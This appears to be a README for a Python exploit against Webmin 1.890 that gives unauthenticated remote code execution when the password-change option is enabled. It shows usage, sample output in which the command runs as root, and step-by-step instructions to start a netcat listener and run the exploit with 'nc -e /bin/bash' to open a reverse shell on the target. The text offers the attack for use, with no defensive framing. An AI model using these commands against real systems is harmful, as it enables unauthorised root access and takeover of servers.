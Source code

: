 # WebMin-1.890-Unauthenticated-RCE

Webmin 1.890 is vulnerable to RCE if “user password change” option to be enabled.<br>

#USAGE: python3 exploit.py [TARGET IP] [COMMAND]
<br>
#Example Output:<br>
<code>python3 exploit.py 1**.2*.*.*** id</code>

&lt;h1&gt;Error - Perl execution failed&lt;/h1&gt;<br>
&lt;p&gt;Your password has expired, and a new one must be chosen.<br>
<strong>uid=0(root) gid=0(root) groups=0(root)</strong><br>
&lt;/p&gt;
<br>
<h4>before running script start listener for connection in your machine</h4>
<code>nc -nvlp [LPORT]</code> 
<br><h4>run script</h4>
<code>python3 exploit.py [RHOST] "nc -e /bin/bash [LHOST] [LPORT]" </code> 
